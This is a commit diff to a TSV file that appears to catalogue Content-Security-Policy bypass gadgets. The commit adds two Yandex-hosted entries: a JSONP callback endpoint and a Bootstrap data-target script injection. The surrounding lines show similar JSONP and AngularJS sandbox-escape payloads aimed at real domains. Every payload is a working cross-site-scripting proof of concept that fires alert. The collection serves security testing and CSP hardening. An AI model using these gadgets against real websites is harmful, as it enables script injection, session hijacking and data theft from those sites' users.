

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Added yandex submissions by notdenied

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -76,2 +76,3 @@ secure.quantserve.com	<script src="https://secure.quantserve.com/api/segments.js
 shop.samsung.com	<script src="https://shop.samsung.com/br/_v/private/ng/p4v1/getCartCount?callback=alert"></script>	renniepak
+social.yandex.ru	<script src="https://social.yandex.ru/providers.jsonp?callback=alert"></script>	notdenied
 soundcloud.com	<script src="https://soundcloud.com/oembed?format=js&callback=alert&url=https://soundcloud.com/rich-the-kid/plug-walk-1"></script>	renniepak
@@ -119,2 +120,3 @@ www.yastatic.net	<body ng-app ng-csp><script src="https://www.yastatic.net/s3/mi
 www.youtube.com	<script src="https://www.youtube.com/oembed?callback=alert(1)"></script>	
+yandex.st	<script src="https://yandex.st/jquery/1.8.2/jquery.min.js"></script><script src="https://yandex.st/bootstrap/3.0.3/js/bootstrap.min.js"></script><button data-toggle="modal" data-target="$('head').html('<script>alert(1)</script>')">Test XSS</button>	notdenied
 yastat.net	<body ng-app ng-csp><script src="https://yastat.net/s3/milab/js/angular.min.js"></script><input autofocus ng-focus="$event.composedPath()|orderBy:'[].constructor.from([1],alert)'"></body>	Panya
```
